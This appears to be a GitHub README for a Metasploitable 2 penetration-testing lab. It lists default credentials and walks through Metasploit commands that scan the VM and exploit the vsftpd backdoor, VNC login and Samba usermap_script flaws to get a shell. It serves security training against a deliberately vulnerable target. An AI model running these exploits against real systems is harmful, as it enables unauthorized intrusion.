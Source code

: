 
📌Default credentials are Username: Vagrant password : vagrant

------------------------------

 ### Metasploitable 2.   

Official website: [Rapid 7 website](rapid7.com/products/)


### System requirements 
- Windows 7/8/10/11
- VT-x/AMD-V supported processor
- Minimum of 30GB HDD space
- Minimum of 4GB RAM

- Default credentions are Username: msfadmin  and Password: msfadmin


## Components of metasplotable 2 
- TWiki
- phpMyAdmin
- Multilidae
- DVWA
- WebDAV

## Penetration testing on metasploitable 2
                                                 
    $ifconfig #run this on target machine (metasploitable 2)
    $nmap -sV -O 172.16.225.128
    $msfconsole

## Very Secure FTP exploitaion
    $msfconsole
    
    msf6>search vsftpd
    msf6>use exploit/unix/ftp/vsftpd_234_backdoor
    msf6>set RHOST 172.16.225.128
    msf6>run
metepreter>whoami

## VNC Remote Login exploitation
    $msfconsole
    >search vnc login
    >use auxiliary/scanner/vnc/vnc_login
    >set RHOST 172.16.225.128
    >run

    $vncviewer 172.16.225.128

## Samba server exploitation
    $msfconsole
    >search usermap script
    >exploit/multi/samba/usermap_script
    >set RHOST 172.16.225.128
    >exploit
metepreter>whoami
